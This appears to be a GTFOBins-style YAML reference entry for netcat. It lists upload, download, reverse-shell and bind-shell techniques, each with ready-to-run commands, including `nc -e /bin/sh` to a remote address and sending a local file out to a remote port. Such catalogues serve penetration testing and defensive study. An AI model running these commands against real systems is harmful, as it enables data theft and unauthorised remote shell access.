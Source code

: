 ```yaml
---
functions:
  upload:
    - description: |
        Send a file to a TCP port. Run `nc -l -p 8000 > "where_to_save"` to collect the file on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        LFILE=file_to_send
        nc $RHOST $RPORT < "$LFILE"
  download:
    - description: Fetch remote file from a remote TCP port. Run `nc 10.0.0.2 8000 < "file_to_send"` to send the file from the other end.
      code: |-
        LPORT=8000
        LFILE=where_to_save
        nc -l -p $LPORT > "$LFILE"
  reverse-shell:
    - description: Run `nc -l -p 8000` to receive the shell on the other end.
      code: |
        RHOST=10.0.0.1
        RPORT=8000
        nc -e /bin/sh $RHOST $RPORT
  bind-shell:
    - description: Run `nc 10.0.0.2 8000` to connect to the shell on the other end.
      code: |
        LPORT=8000
        nc -l -p $LPORT -e /bin/sh
---
```

